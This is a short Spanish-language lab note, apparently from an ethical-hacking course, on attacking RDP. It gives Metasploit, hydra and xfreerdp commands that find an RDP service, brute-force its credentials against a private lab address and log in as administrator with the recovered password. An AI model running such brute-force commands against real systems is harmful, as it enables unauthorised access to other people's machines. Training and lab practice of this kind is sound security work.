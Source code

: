 #HackingActiveDirectoy #PinguinoMario #HackingEtico 
Por lo general, el protocolo RDP corre sobre el puerto 3389, pero es posible que corra por otro puerto, por lo que podemos asegurarnos de que un puerto es el RDP con metasploit:
![[Pasted image 20230730164545.png]]
Usaremos el siguiente módulo de metasploit:
```bash
use auxiliary_scanner/rdp/rdp_scanner
```
![[Pasted image 20230730164711.png]]
Y ahora con hydra podemos hacer el ataque de fuerza bruta con estos parámetros:
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.28.92 -s 3333
```
Y nos encuentra los siguientes usuarios:
![[Pasted image 20230730165016.png]]
Ahora para conectarnos de forma remota, podemos usar una herramienta llamada xfreerdp:
```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.28.92:3333
```
![[Pasted image 20230730165316.png]]
Y ya habremos entrado:
![[Pasted image 20230730165226.png]]